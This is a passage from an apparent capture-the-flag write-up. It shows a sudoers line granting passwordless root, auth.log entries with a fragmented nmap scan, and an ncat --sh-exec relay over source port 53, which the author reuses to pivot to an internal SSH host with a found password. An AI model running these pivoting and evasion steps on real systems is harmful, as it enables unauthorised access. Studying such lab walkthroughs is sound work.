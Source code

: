```bash
www-data ALL=NOPASSWD: ALL
```
We start checking around the machine for anything else that might be interesting, it looks like Dave is doing something weird here with this cron job and netcat that we see in the auth.log. What is it connecting to on 192.168.5.2 port 987? 
```bash
---snip---
Sep  2 15:07:20 DNS sudo: pam_unix(sudo:auth): auth could not identify password for [dave]                                  Sep  2 15:07:45 DNS sudo: pam_unix(sudo:auth): authentication failure; logname=dave uid=1001 euid=0 tty=/dev/pts/0 ruser=dave rhost=  user=dave
Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
Sep  2 15:07:51 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                        
Sep  2 15:08:55 DNS sudo: pam_unix(sudo:session): session closed for user root                                       
Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session opened for user root by (uid=0)                      
Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session closed for user root                                 
Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:20 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                        
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:34 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                           
Sep  2 15:13:43 DNS sudo: pam_unix(sudo:session): session closed for user root                                       
Sep  2 15:13:44 DNS sshd[2429]: Received disconnect from 192.168.122.1 port 60866:11: disconnected by user           
Sep  2 15:13:44 DNS sshd[2429]: Disconnected from 192.168.122.1 port 60866       
---snip---
```
If we just look at it with nc, we can see it's actually ssh running on that port 987.
```bash
root@DNS:/var/www/DNS# ncat 192.168.5.2 987 -p 53
ncat 192.168.5.2 987 -p 53
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4

Protocol mismatch.
```
Interesting so let's try Dave's second password and see if we can ssh to it. The above command in auth.log is a listener on local port 1234 then forwards traffic to 192.168.5.2 987 over port 53 with ncat, let's just copy that syntax here and let it hang.
```bash
root@DNS:/var/www/html# /usr/bin/ncat -l 1234 --sh-exec 'ncat 192.168.5.2 987 -p 53'
```

In another shell on the DNS box we can now ssh to localhost 1234 with Dave's second password dav3gerous567. 
```bash
root@DNS:/var/www/html# ssh dave@127.0.0.1 -p 1234
ssh dave@127.0.0.1 -p 1234
dave@127.0.0.1's password: dav3gerous567

Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.
```